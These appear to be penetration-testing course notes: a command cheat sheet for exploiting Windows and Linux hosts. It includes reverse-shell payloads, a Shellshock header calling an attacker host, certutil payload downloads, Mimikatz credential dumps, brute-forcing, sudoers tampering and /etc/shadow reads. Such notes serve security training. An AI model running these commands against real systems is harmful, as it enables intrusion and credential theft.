 
---

### Introduction to System/Host-Based Attacks

System-based attacks target a specific host or system, often after initial access has been gained through reconnaissance and network infiltration. These attacks typically exploit vulnerabilities inherent to the operating system (OS) or commonly used services running on the host.

---

### Windows Vulnerabilities

#### Overview

- Popular OS, widely used across enterprises.
    
- Common vulnerabilities: MS08-067, MS17-010.
    
- Fragmented attack surface due to numerous Windows versions.
    
- Types: Information Disclosure, Buffer Overflows, RCE, Privilege Escalation, DoS.
    

#### Frequently Exploited Services

- SMB, RDP, WebDAV, WinRM, IIS.
    

---

### Exploiting Windows Vulnerabilities

#### Microsoft IIS WebDAV

```
nmap -sV --script=http-enum <TargetIP>
davtest -url http://<TargetIP>/webdav
davtest -auth user:pass -url http://<TargetIP>/webdav
cadaver http://<TargetIP>/webdav
```

With Metasploit:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<MyIP> LPORT=<Port> -f asp > shell.asp
cadaver http://<TargetIP>/webdav
msf5 > use multi/handler
msf5 > use exploit/windows/iis/iis_webdav_upload_asp
```

#### SMB & PsExec

```
msf5 > use auxiliary/scanner/smb/smb_login
psexec.py user@<TargetIP> cmd.exe
msf5 > use exploit/windows/smb/psexec
```

#### MS17-010 (EternalBlue)

```
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 <TargetIP>
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
msf5 > use exploit/windows/smb/ms17_010_psexec
```

#### RDP & BlueKeep

```
msf5 > use scanner/rdp/rdp_scanner
hydra -L users.txt -P passwords.txt rdp://<TargetIP>
xfreerdp /u:<user> /p:<pass> /v:<TargetIP>:<Port>
msf5 > use scanner/rdp/cve_2019_0708_bluekeep
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

#### WinRM

```
crackmapexec winrm <TargetIP> -u user -p pass -x "cmd"
evil-winrm -u user -p 'pass' -i <TargetIP>
```

---

### Windows Privilege Escalation

#### Kernel Exploits

Tools:

- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
    
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
    

```
meterpreter > getprivs
meterpreter > getsystem
msf6 > use post/multi/recon/local_exploit_suggester
systeminfo > systeminfo.txt
python3 windows-exploit-suggester.py --database <db.xls> --systeminfo systeminfo.txt
```

#### Bypassing UAC (UACMe)

Tool: [UACMe](https://github.com/hfiref0x/UACME)

```
Upload payload and Akagi64.exe to C:\tmp
C:\tmp> Akagi64.exe 23 C:\tmp\backdoor.exe
```

#### Access Token Impersonation (Incognito)

```
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "token_name"
```

---

### Windows File System Vulnerabilities

#### Alternate Data Streams (ADS)

```
notepad test.txt:secret.txt
type payload.exe > VisibleFile.txt:payload.exe
mklink legit.exe VisibleFile.txt:payload.exe
```

---

### Windows Credentials Dumping

#### SAM Hash Dumping

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe > payload.exe
certutil -urlcache -f http://<IP>:<Port>/payload.exe payload.exe
```

#### Using Mimikatz/Kiwi

```
meterpreter > pgrep lsass
meterpreter > load kiwi
mimikatz > lsadump::sam
mimikatz > sekurlsa::logonpasswords
```

#### Pass-the-Hash

```
crackmapexec smb <TargetIP> -u user -p "NTLMhash"
```

---

### Linux Vulnerabilities

#### Common Services

- Apache
    
- SSH
    
- FTP
    
- SAMBA
    

---

### Exploiting Linux Vulnerabilities

#### Shellshock (CVE-2014-6271)

```
nmap -sV <TargetIP> --script=http-shellshock --script-args "http-shellshock.uri=/cgi-bin/script.cgi"
User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/<AttackerIP>/<Port> 0>&1'
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

#### FTP

```
ftp <TargetIP>
nmap -sV --script=ftp-anon <TargetIP>
hydra -L users.txt -P passwords.txt <TargetIP> ftp
```

#### SSH

```
hydra -L users.txt -P passwords.txt <TargetIP> ssh
```

#### SAMBA

```
hydra -L users.txt -P passwords.txt <TargetIP> smb
smbmap -H <TargetIP> -u user -p pass
smbclient -L <TargetIP> -U user
enum4linux -a -u user -p pass <TargetIP>
```

---

### Linux Privilege Escalation

#### Kernel Exploits

Tool: [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

```
meterpreter > sysinfo
meterpreter > upload linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

#### Cron Jobs

```
crontab -l
grep -rnw /usr -e "/path/to/cron/script"
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

#### SUID Binaries

```
cp /bin/bash greetings
./suid_binary
```

---

### Linux Credential Dumping

#### /etc/shadow Dump

```
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor
msf6 > sessions -u <id>
meterpreter > cat /etc/shadow
msf6 > use post/linux/gather/hashdump
```

---


